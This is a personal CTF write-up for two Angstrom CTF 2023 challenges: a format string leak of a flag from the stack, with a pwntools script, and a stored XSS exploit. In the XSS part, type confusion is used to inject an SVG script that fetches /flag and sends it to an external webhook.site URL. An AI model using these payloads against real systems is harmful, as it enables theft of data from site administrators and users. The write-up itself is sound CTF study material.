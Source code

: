 ```yaml
---
title: Angstrom CTF 2023
slug: AngstromCTF-2023
author: [kane]
date: 2023-6-21
tags: [ctf,writeup]
---
```


## Queue

Category: pwn

Requires: format string bug

(wasn't solved during event, this is just my proecdure after reading a few writeups)

ghidra, decompile `main`, reverse some variables:
```c
void main(void)

{
  __gid_t __rgid;
  FILE *__stream;
  long in_FS_OFFSET;
  char input [48];
  char flag [136];
  long canary;
  
  canary = *(long *)(in_FS_OFFSET + 0x28);
  setbuf(stdout,(char *)0x0);
  __rgid = getegid();
  setresgid(__rgid,__rgid,__rgid);
  __stream = fopen("flag.txt","r");
  if (__stream == (FILE *)0x0) {
    puts("Error: missing flag.txt.");
                    // WARNING: Subroutine does not return
    exit(1);
  }
  fgets(flag,128,__stream);
  printf("What did you learn in class today? ");
  fgets(input,48,stdin);
  printf("Oh nice, ");
  printf(input);
  printf("sounds pretty cool!");
  if (canary != *(long *)(in_FS_OFFSET + 0x28)) {
                    // WARNING: Subroutine does not return
    __stack_chk_fail();
  }
  return;
}
```

since there is `fgets()` followed by `printf()` it is a FSB (Format string bug)

`%n$p` gets the nth argument on the stack as a **pointer**. (Wait, why is the flag encoded in the memory address? idk, did they forget to reference the value or smth???)

so we input this:
```
What did you learn in class today? %1$p %2$p %3$p %4$p %5$p %6$p %7$p %8$p %9$p %10$p %11$p %12$p %13$p %14$p %15$p %16$p %17$p %18$p %19$p %20$p
Oh nice, 0x7ffd8d06e960 (nil) (nil) (nil) (nil) 0x3e800000002 0x55d9978532a0 0x2432252070243125 0x2520702433252070 %1sounds pretty cool!
```
We get `0x2432252070243125 0x2520702433252070` as the "output". Converting this to little endian ascii:
```python
list = [0x2432252070243125, 0x2520702433252070]

flag = []

for l in list:
    l = hex(l)
    bytelen = len(l)-2
    if bytelen%2==1:
        l = '0'+l
    for i in range(1,bytelen,2):
        f = l[-i-1]+l[-i]
        f = int(f,16)
        flag.append(chr(f))
print(''.join(flag))
```

we get `%1$p %2$p %3$p %`, which is the original input (shouldn't be surprising, the `input` also stored on the stack). 
We keep removing format strings to prevent clogging the output until we get:
```
What did you learn in class today? %13$p %14$p %15$p %16$p %17$p %18$p %19$p %20$p
Oh nice, 0x70243032252070 0x3474737b66746361 0x75715f74695f6b63 0x615f74695f657565 0x3437396461393136 0x7d32326234363863 (nil) (nil)sounds pretty cool!
```
which becomes `p %20$pactf{st4ck_it_queue_it_a619ad974c864b22}`
Flag:
```
actf{st4ck_it_queue_it_a619ad974c864b22}`
```

Better script: [source](https://www.youtube.com/watch?v=jqF4Sgi4Ars)
```python
import pwn
import time
import warnings

elf = pwn.ELF('./queue')
pwn.context.binary = elf
pwn.context.log_level = "DEBUG"

libc = elf.libc

out=""
for i in range(14,19):
	# p = elf.process()
	p = pwn.remote('challs.actf.co','31322')
	p.sendlineafter(b"today?", f"%{i}$p")
	
	p.recvuntil('Oh nice, 0x')
	
	data = p.recvuntil('sounds', drop=True)
	out+=bytes.fromhex(data.decode()).decode()[::-1]
	p.close()
print(out)
```

## Hallmark
Category: Web

Requires: xss, javascript knowledge (and some svg knowledge ig)

(wasn't solved during event, this is just my proecdure after reading a few writeups)

Looking through the source code of the server, it does not seem that we are able to directly xss it from just the `POST /flag` 
However there is the `PUT /flag` route for the challenge that allows us to potentially edit a card's content:
```js
app.put('/card', (req, res) => {
    let { id, type, svg, content } = req.body;

    if (!id || !cards[id]) {
        res.send('bad id');
        return;
    }

    cards[id].type = type == 'image/svg+xml' ? type : 'text/plain';
    cards[id].content = type === 'image/svg+xml' ? IMAGES[svg || 'heart'] : content;

    res.send('ok');

});
```
We also see that we can pass rich objects and arrays into the request since `extended: true`:
```js
app.use(bodyParser.urlencoded({ extended: true }));
```
We want the type to be `image/svg+xml` so that it renders as an svg allowing it to run the `<script></script>` in the svg, but we want to input our own svg. We simply set the `type` to be `["image/svg+xml"]` since:
```js
> ['a'] == 'a'
True
> ['a'] === 'a'
False
```
so we first create a pre-existing card, then we send the following request on https://hoppscotch.io:
Request Body:
| Parameter | Value                                                                                                                                                                                                                              |
| --------- | ---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| `id`        | `[your id]`                                                                                                                                                                                                                          |
| `type[]`  | `image/svg+xml` - inputs an array into the server                                                                                                                                                                                                                  |
| `content`   | `<svg version="1.1" width="300" height="200" xmlns="http://www.w3.org/2000/svg"><script>fetch('/flag').then(r=>r.text()).then(d=>window.location="https://webhook.site/63b5be4d-5111-467d-8572-18702c2e7b00?c="+d)</script></svg>` |

its simply an svg:
```xml
<svg version="1.1" width="300" height="200" xmlns="http://www.w3.org/2000/svg"><script></script></svg>
```
with a fetch
```js
fetch('/flag').then(r=>r.text()).then(d=>window.location="https://webhook.site/blahblah?c="+d)
```
now we submit this to the admin site and in our webhook we see:
`actf{the_adm1n_has_rece1ved_y0ur_card_cefd0aac23a38d33}`
